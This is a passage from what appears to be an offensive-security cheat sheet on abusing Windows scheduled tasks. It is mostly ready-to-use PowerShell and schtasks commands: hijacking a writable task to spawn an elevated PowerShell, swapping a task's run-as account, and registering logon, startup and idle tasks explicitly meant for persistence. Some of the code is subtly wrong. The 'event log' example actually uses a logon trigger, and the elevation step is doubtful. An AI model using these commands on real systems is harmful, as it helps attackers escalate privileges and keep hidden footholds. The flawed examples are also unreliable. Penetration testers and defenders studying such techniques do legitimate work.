 2. Exploit Writable Scheduled Task:  
   If a scheduled task has writable permissions, you can alter it to run an elevated PowerShell session.
	```powershell
	schtasks /Change /TN "<TaskName>" /TR "powershell -Command \"Start-Process PowerShell -Verb RunAs\""
	```

3. Change User Running a Task (Requires Admin Privileges):  
   This command changes the user running the task to a new user with provided credentials.
	```powershell
	schtasks /change /tn "<task_name>" /ru "<new_user>" /rp "<new_password>"
	```

#### Examples of Creating Scheduled Tasks for Privilege Escalation

1. Create a Task Triggered by User Logon (User Level):  
   This creates a task that runs when a user logs in, useful for persistence.
	```powershell
	$action = New-ScheduledTaskAction -Execute "C:\path\to\program.exe"
	$trigger = New-ScheduledTaskTrigger -AtLogon
	Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "<task_name>" -Description "Persistence task"
	```

2. Create a Task Triggered by System Startup (System Level):  
   This task runs at system startup, regardless of whether a user logs in.
	```powershell
	$action = New-ScheduledTaskAction -Execute "C:\path\to\program.exe"
	$trigger = New-ScheduledTaskTrigger -AtStartup
	Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "<task_name>" -Description "System startup task"
	```

3. Create a Task Triggered by User Idle:  
   This creates a task that runs when the system becomes idle, another opportunity for persistence.
	```powershell
	$action = New-ScheduledTaskAction -Execute "C:\path\to\program.exe"
	$trigger = New-ScheduledTaskTrigger -AtIdle
	Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "<task_name>" -Description "Idle trigger task"
	```

4. Scheduled Task Triggered by Event Log:  
   This creates a task triggered by a specific event log, such as a security event, useful for stealthy persistence.
	```powershell
	$action = New-ScheduledTaskAction -Execute "C:\path\to\program.exe"
	$trigger = New-ScheduledTaskTrigger -AtLogon
	Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "<task_name>" -Description "Event log-based persistence"
	```
